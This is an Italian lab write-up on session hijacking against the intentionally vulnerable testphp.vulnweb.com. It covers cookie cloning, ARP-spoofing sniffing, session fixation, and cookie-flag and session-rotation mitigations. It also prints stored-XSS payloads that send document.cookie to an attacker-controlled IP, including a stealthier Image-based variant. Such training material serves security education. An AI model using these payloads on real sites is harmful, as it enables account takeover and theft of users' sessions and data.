




# Auth Attacks: Session Hijacking

Obiettivo: Dimostrare come un attaccante può impersonare un utente autenticato sottraendo il suo identificativo di sessione (Session ID), bypassando completamente la password e l'autenticazione a due fattori (2FA).

Target: `http://testphp.vulnweb.com`

Lab Setup:

- Attaccante: Kali Purple (IP: `192.168.0.110`)
- Vittima: Windows 10 (Chrome)

Strumenti: Browser DevTools, Python (HTTP Server), XSS Payload, Ettercap, Wireshark.

---

## 1 Teoria: Il "Passpartout"

Il protocollo HTTP è stateless (senza memoria). Per "ricordarsi" chi sei dopo il login, il server ti assegna un Session ID (solitamente salvato nei Cookie).
In termini di sicurezza: Chi possiede quel cookie È l'utente.

Se un attaccante lo ottiene, può accedere all'account della vittima immediatamente, senza conoscere le credenziali.

---

## 2 Vettori di Attacco Principali

- XSS (Cross-Site Scripting): Iniettare JavaScript malevolo per leggere `document.cookie` e inviarlo a un server esterno.
- Network Sniffing: Intercettare traffico HTTP non cifrato (es. su Wi-Fi pubblici) per leggere i cookie in transito.
- Session Fixation: L'attaccante "fissa" un ID di sessione noto e forza la vittima a usare quello per loggarsi.
- Malware/Physical Access: Rubare i file database dei cookie direttamente dal PC della vittima.

---

## 3 Scenario A: Manual Cookie Cloning (Basic)

In questo scenario simuliamo il concetto base: se copio il cookie da un browser all'altro, trasferisco la sessione.

Procedura:

#### Browser A (Vittima): Effettua il login legittimo su `testphp.vulnweb.com`.

Estrazione: Apre i DevTools (`F12` > Storage > Cookies) e copia il valore del cookie.

Valore tipico: `login=test%2Ftest`

#### Browser B (Attaccante): Apre la home page del sito (non autenticato).

Injection: Apre la Console Developer e digita:

```JavaScript
document.cookie="login=test%2Ftest";
```

Refresh: Ricaricando la pagina, il Browser B risulta loggato come l'utente vittima.

---

## 4 Scenario B: XSS to Cookie Stealing (Advanced Red Team)

In questo scenario reale, automatizziamo il furto usando una vulnerabilità del sito, senza avere accesso fisico al PC della vittima.

#### Fase 1: Setup della Trappola

L'attaccante sfrutta una vulnerabilità Stored XSS nel Guestbook. L'obiettivo è iniettare uno script che invii il cookie al server attaccante (`192.168.0.110`).

Listener (Kali):

```Bash
python3 -m http.server 8000
```

Payload XSS:

```HTML
<script>document.location='http://192.168.0.110:8000/?cookie='+document.cookie;</script>
```

Nota Tecnica (Stealth): Questo payload usa un redirect (`document.location`), che è visibile alla vittima. Un attaccante reale potrebbe usare un metodo silenzioso (es. `new Image().src = 'http://192.168.0.110:8000/?c='+document.cookie`) per rubare il cookie in background senza che la vittima se ne accorga.

#### Fase 2: Esecuzione (The Heist)

La vittima visita la pagina del Guestbook. Il browser esegue lo script e viene forzato a visitare il server dell'attaccante, esponendo il cookie nell'URL.

Evidenza 1: Redirect della Vittima

La vittima vede una "Directory listing" del server attaccante invece del sito. Nella barra degli indirizzi si vede il cookie rubato: `login=test%2Ftest`.



#### Fase 3: Acquisizione e Injection

L'attaccante riceve il cookie nei log del server Python e lo inietta nel proprio browser tramite console.

Evidenza 2: Log su Kali & Injection Manuale



A sinistra i log del server che mostrano la richiesta GET con il cookie. A destra la console del browser attaccante dove viene impostato il cookie.

#### Fase 4: Impersonificazione (Success)

Dopo aver impostato il cookie e aggiornato la pagina, l'attaccante ha accesso completo ai dati sensibili (carta di credito, email) dell'utente `test`.

Evidenza 3: Accesso Eseguito



---

## 5 Secure Coding (Difesa)

Per mitigare questi attacchi è necessario agire su più livelli:

- Flag `HttpOnly`:
    
    Rende il cookie invisibile a JavaScript. Se attivo, `document.cookie` restituisce una stringa vuota, rendendo l'attacco XSS inefficace per il furto di sessione. Questo è il motivo principale per cui l'attacco sopra ha avuto successo: il flag mancava.

- Flag `Secure`:
    
    Assicura che il cookie venga inviato solo su connessioni HTTPS cifrate (protegge dallo Sniffing).

- Flag `SameSite` (Strict/Lax):
    
    Previene l'invio del cookie su richieste Cross-Site (mitiga CSRF e alcuni vettori di XSS leaking).

- Session Rotation:
    
    Rigenerare il Session ID subito dopo il login. Questo impedisce gli attacchi di Session Fixation.

- Input Sanitization:
    
    Sanitizzare sempre l'input utente per prevenire l'iniezione di codice XSS alla radice.

---

## 6 Scenario C: Network Sniffing (Man-in-the-Middle)

In questo scenario, l'attaccante si posiziona all'interno della stessa rete locale (LAN) della vittima. Poiché il target `testphp.vulnweb.com` utilizza il protocollo HTTP non cifrato, tutto il traffico, inclusi i cookie di sessione, viaggia "in chiaro".

Tecnica: ARP Spoofing

L'attaccante utilizza tecniche di ARP Poisoning per ingannare il PC della vittima, facendogli credere che la macchina dell'attaccante sia il Router. In questo modo, tutto il traffico della vittima transita attraverso Kali prima di raggiungere internet.

Procedura Lab:

1.  Tool: `Ettercap` (per ARP Spoofing) e `Wireshark` (per l'analisi pacchetti).

2.  Targeting: La vittima (Windows 10) viene targettizzata affinché il suo traffico passi per l'interfaccia `eth0` di Kali.

3.  Sniffing: Su Wireshark viene applicato il filtro `http.cookie`.

4.  Cattura: Appena la vittima effettua il login, il cookie viene intercettato.

Evidenza:




Wireshark mostra chiaramente il pacchetto GET request contenente l'header: `Cookie: login=test%2Ftest`

Mitigazione:

L'unica difesa efficace contro lo sniffing è l'utilizzo di HTTPS (TLS/SSL) e il flag `Secure` sui cookie. Questo cifra il traffico rendendolo illeggibile anche se intercettato.

---

## 7 Scenario D: Session Fixation (Theoretical Trap)

A differenza del furto (Hijacking), qui l'attaccante impone un Session ID noto alla vittima prima ancora che essa effettui il login.

Il Concetto:

Molti server web accettano il Session ID non solo via Cookie, ma anche via parametro URL (es. `PHP_SESSION_ID`).

La Kill Chain:

1.  Setup: L'attaccante visita il sito e ottiene un ID di sessione valido (es. `PHPSESSID=12345`) senza fare login.

2.  La Trappola: L'attaccante invia alla vittima un link malevolo contenente quell'ID: `http://testphp.vulnweb.com/login.php?PHPSESSID=12345`

3.  L'Accesso: La vittima clicca il link. Il server vede l'ID `12345` nell'URL e lo "fissa" per quella sessione.

4.  Autenticazione: La vittima inserisce user e password. Il server promuove l'ID `12345` a "ID autenticato".

5.  L'Intrusione: L'attaccante, che possedeva già il cookie `12345` nel suo browser, aggiorna la pagina e si ritrova loggato come la vittima.

Mitigazione:

Il server deve implementare la Session Rotation: ogni volta che un utente cambia livello di privilegio (es. fa login), il server deve distruggere il vecchio Session ID e generarne uno completamente nuovo.